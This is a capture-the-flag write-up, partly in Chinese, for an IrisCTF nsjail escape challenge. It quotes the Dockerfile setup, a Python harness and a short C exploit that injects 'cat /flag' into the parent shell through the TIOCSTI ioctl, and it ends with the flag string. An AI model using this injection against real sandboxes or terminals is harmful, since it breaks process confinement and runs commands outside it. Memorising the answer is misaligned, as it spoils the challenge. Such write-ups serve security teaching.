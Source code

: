 # 题目描述

My flag is protected by sick nsjail tech. I'm so confident in it, I'll even personally run your binary in it.

When you compile your binary to run, please use the provided Dockerfile - it is the same environment as on remote.

# 解决方案

这套题需要绕过[nsjail](https://github.com/google/nsjail)，通过[TIOCSTI](https://man7.org/linux/man-pages/man2/ioctl_tty.2.html)，原理我也不太理解，如果了解nsjail，有可能知道相关的漏洞及绕过方法。

网上摘抄的方案如下：

The challenge is a nsjail escape on the default configuration used in the bash example. The server will run a given binary simulating an actual tty shell.

```dockerfile
RUN cd nsjail && make && mv ./nsjail /bin && mv configs/bash-with-fake-geteuid.cfg /nsjail.cfg && cd .. && rm -rf nsjail
RUN sed -i 's/"\/bin\/bash"/"\/solve"/' /nsjail.cfg
RUN echo "\nmount {\n\tsrc: \"/tmp/solve\"\n\tdst: \"/solve\"\n\tis_bind: true\n}\n" | tee -a /nsjail.cfg
```
```py
p = subprocess.Popen(["socat", "-", "exec:\"bash -i\",pty,stderr,setsid,sigint,sane"], stdin=subprocess.PIPE, stdout=subprocess.PIPE) # spawns bash in a PTY
p.stdin.write(b"nsjail --config /nsjail.cfg &\n") # runs nsjail process in background of bash

time.sleep(5)

print(p.communicate(timeout=3)[0].decode()) # and prints the output

```
The solve binary is provided by the solver on connecting to the server.

The escape is due to the fact that the example has `setsid: false`. This means you can use the TIOCSTI ioctl to send characters to the parent shell outside of the nsjail! The setup in the challenge makes this exploitable by running the command with `&`. Though I think it's probably still possible even without that... :)

```c
#include <sys/ioctl.h>
#include <string.h>

int main() {
    const char* c = "cat /flag\n";
    for(unsigned int i = 0; i < strlen(c); i++) {
        ioctl(0, TIOCSTI, &c[i]); // writes char to PTY which is read by bash
    }
    return 0;
}

```

This challenge was pretty hard to set up. It's nsjail inside bash inside socat inside nsjail...

```
irisctf{ioctl_is_forever}
```
